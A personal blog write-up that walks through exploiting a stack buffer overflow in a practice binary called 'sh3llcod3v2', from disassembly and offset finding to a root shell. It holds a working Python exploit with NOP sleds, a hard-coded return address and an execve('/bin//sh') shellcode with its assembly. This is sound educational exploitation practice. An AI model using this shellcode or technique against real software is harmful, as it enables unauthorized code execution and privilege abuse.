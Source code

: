 ```yaml
---
title: "Linux Buffer Overflow Practice: Sh3llcod3v2"
date: 2019-09-08T02:48:44+02:00
tags:
  - writeup
  - binary-exploitation
showdate: true
toc: true
---
```


One day a friend sent me a Linux buffer overflow exercise he was asked to solve, so I happily gave him a hand and dag a bit deeper than needed with the "reverse engineering" (which was just taking a look at how C functions would olook like in ASM) just for fun and to become more familiar with x86 ASM, so what came out of it was this bunch of notes on a very simple binary, how it works, and how I exploited it. Nothing too fancy. The binary is called "sh3llcod3v2" and I couldn't find it anywhere so I have no clue where he got it from, I hope I'm not breaking any rules by posting this. Also I apologize for the excessive use of images instead of text on this writeup, but the shared clipboard wouldn't work on Ubuntu so it's either this or nothing.

---

## Function analysis: puts()

![img](/images/shellcodev2/0.png)

Before we analyze the executable it would be better to know how the standard functions it uses work. Because of that we are going to see a few prototypes in C and how they look like after they've been compiled. First of all we can use ltrace to see which library calls the program performs during runtime:

![img](/images/shellcodev2/1.png)

From this output we can tell the program uses *printf* to show the banner, *puts* to output strings for the rest of the program, and finally *read* to receive a string in input, which apparently can be up to 1000 characters long. *setvbuf* is also used to set the behavior of the stdin and stdout buffers, I'll explain it a bit more in detail when we come to the disassembling bit (I didn't include the prototypes for *setvbuf* out of laziness, sorry about that). We can start our analysis of the prototypes from *puts*, by simply outputting a simple string. We can consult the Linux man pages to see which arguments it needs and what behavior to expect:

![img](/images/shellcodev2/2.png)


So the only argument puts needs is a string, and it will be written on to stdout with a \n at the end, so we don't have to include it ourselves in the string:

![img](/images/shellcodev2/3.png)

Now we can examine its disassembly:

![img](/images/shellcodev2/4.png)

---

## Function analysis: read() + for loop

Next on the list is *read*, let's see its description again from the Linux man pages:

![img](/images/shellcodev2/5.png)

With this information we can write another short test program in C:

![img](/images/shellcodev2/6.png)

Notice how after receiving the string in input we cycle through all its characters to delete the final \n, because the *read* function will include it in the final string, and we need that character out of the way in order to display the final message correctly. Using this *for* loop will also make the code a little longer, but more interesting as well, here it is, heavily commented to describe what happens at every little step:

![img](/images/shellcodev2/7.png)

The code above will be very helpful to understand our vulnerable program.

---

## Analyzing the target


Armed with this knowledge we can go back to our vulnerable executable and see how it works. Here are some useful strings obtained with the *strings* command from the gdb command line (+ PEDA.py to help with the exploit development process), we can use these to better understand the behavior of the program:

![img](/images/shellcodev2/8.png)

Now we can disassemble the program by starting from the *main* function:

![img](/images/shellcodev2/9.png)

This *main* function dictates how to treat the stdin and stdout buffers during runtime, prints the banner, and then passes execution to the *prog* function, which looks like this:

![img](/images/shellcodev2/10.png)

All this function does is allocating around 200 bytes of fresh memory on the stack and passing a pointer to that memory region to the *get_name* function. Once *get_name* returns the content of that very same memory region is printed out with *printf* through the %s format string. Still nothing too interesting here, but at least we know how big the buffer should be now. Let's check out the get_name function then, time to squint the eyes:

![img](/images/shellcodev2/11.png)

Good, now we know exactly what the program does, how, and where our data will be saved. To be specific, the program will ask for a name but will stop the normal flow if it encounters any null byte (0x00) in our string. Because null bytes are used to terminate strings and the *read* function will read up to 999 characters, we have to trick the program by sending a string that is at least 999 characters long, so the terminator character will be the 1000th character and the function won't read it, thus continuing execution.

A thousand bytes are a lot to work with but this should also make our job easy because we aren't restricted to short shellcodes, even if I'm going to use one because of convenience. So let's get our hands dirty. First of all we need to know exactly after how many bytes we will reach the instruction pointer, in order to do that we generate a very long never-repeating string that will be used as input, it will crash the program, and we can see the content of EIP to get what offset of the string overwritten it. Using PEDA makes this task very easy:

![img](/images/shellcodev2/12.png)

Once we press enter the program will crash and we will get a view of the current status of the memory and every register:

![img](/images/shellcodev2/13.png)

The debugger tells us we run into a SIGSEGV error, so a segmentation fault, the program tried to access a memory address it had no control over, meaning EIP has been altered and in fact we can see its value is 0x25412425, hexadecimal representation of the string "%$A%". We can now see where exactly that sub-string is at in our original input, to know what offset of the input will overwrite EIP allowing us to redirect it wherever we want:

![img](/images/shellcodev2/14.png)

Good, we know we will need 212 bytes of data before we can overwrite the instruction pointer, so we can start working on our exploit now.

---

## Writing the exploit

There is more than one approach, we can check what security measures are enabled on the executable to evaluate which are the most convenient:

![img](/images/shellcodev2/15.png)

There isn't a single exploit prevention system enabled (except for ASLR on our own computer), and we know the buffer will always be located at the hard-coded memory address 0x804c060 as we have seen in the disassembly, so we might as well inject some shellcode in the buffer and jump to it since the stack is executable. I like writing my exploits in Python so here is a rough draft of one:

```python
import struct
import sys

# this variable contains the address that will overwrite EEIP, it's exactly where our
# buffer begins, where it fill find a NOP sled that leads to the shellcode
jmp_address = struct.pack("<I", 0x804c060)

# a simple null-free execve() shellcode, for a total of 23 bytes
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

# first NOP sled that leads to the shellcode
sled1 = "\x90" * 60

# another sled, this one will just fill the space between the shellcode and
# jmp_address, so sled1 + shellcode + sled2 = 212 bytes
sled2 = "\x90" * 129

# the rest of the input can be random garbage, we need it only to have at least
# 999 bytes of null-free data
junk = "A" * 800

# craft the actual payload
payload = sled1 + shellcode + sled2 + jmp_address + junk

# and feed it to the vulnerable program
print payload
sys.stdout.flush()
```

The shellcode was taken [here](http://shell-storm.org/shellcode/files/shellcode-827.php).

```shell-session
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```


This is the original ASM code:

```asm
xor    %eax,%eax
push   %eax
push   $0x68732f2f
push   $0x6e69622f
mov    %esp,%ebx
push   %eax
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80
```


Basically it calls the execve() system call giving it the string "/bin//sh" as parameter. The double slash is needed to fit the string in exactly 8 bytes, we need it to be 8 bytes long or else it would be filled with zeros, and the program would reject it. We can now launch the exploit:

![img](/images/shellcodev2/16.png)

And it worked! Here is a short description of what these last steps did:

- Used python + cat to launch the exploit and pass its output to the input of the vulnerable program
- The program runs its course until it jumps to our shellcode and spawns a shell. Unfortunately this is a non-interactive shell, so...
- We use Python to spawn a new instance of /bin/bash so we have a semi-interactive shell
- Profit! Because we are root we can do anything we please, in this case I listed the content of /root/ as proof of the superuser privileges


Fun challenge indeed. A big thank you goes to Chappie for sending it to me and suggesting the use of cat, the exploit wouldn't work before. Cheers!

